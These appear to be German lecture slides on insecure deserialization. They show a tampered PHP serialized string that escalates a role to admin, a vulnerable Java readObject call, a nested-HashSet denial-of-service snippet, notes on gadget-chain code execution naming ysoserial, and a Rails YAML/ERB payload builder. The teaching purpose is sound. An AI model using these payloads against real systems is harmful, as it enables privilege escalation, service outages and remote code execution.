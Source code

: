 Am Beispiel [PHP](http://www.phpinternalsbook.com/php5/classes_objects/serialization.html)

```
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}

# attack
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:5:"admin"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

## Java Serialization Attack

* Problem: Objekt wird erst deserialisiert und danach erst überprüft
* Falls ein Fehler bei der Deserialiserung passiert, dann wird dies zu spät abgefangen

``` Java
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
```

## Java Serilization Attack

``` Java
Set root = new HashSet();
Set s1 = root;
Set s2 = new HashSet();
for (int i = 0; i < 100; i++) {
  Set t1 = new HashSet();
  Set t2 = new HashSet();
  t1.add("foo"); // make it not equal to t2
  s1.add(t1);
  s1.add(t2);
  s2.add(t1);
  s2.add(t2);
  s1 = t1;
  s2 = t2;
}
```

## Schlimmer: Code Execution

* Über das deserilisierierte Objekt wird Code executed
* Die verwendete Klasse muss im Zielsystem bekannt sein
* Meistens werden Konstruktoren von häufigen Bibliotheken verwendet
* Liste von Vektoren, z. B. [ysoserial](https://github.com/frohoff/ysoserial)

## Ruby on Rails Serilialisierung

```ruby
code  = File.read(ARGV[1])

# Construct a YAML payload wrapped in XML
payload = <<-PAYLOAD.strip.gsub("\n", "&#10;")
<fail type="yaml">
--- !ruby/object:ERB
  template:
      src: !binary |-
            #{Base64.encode64(code)}
	    </fail>
	    PAYLOAD
```
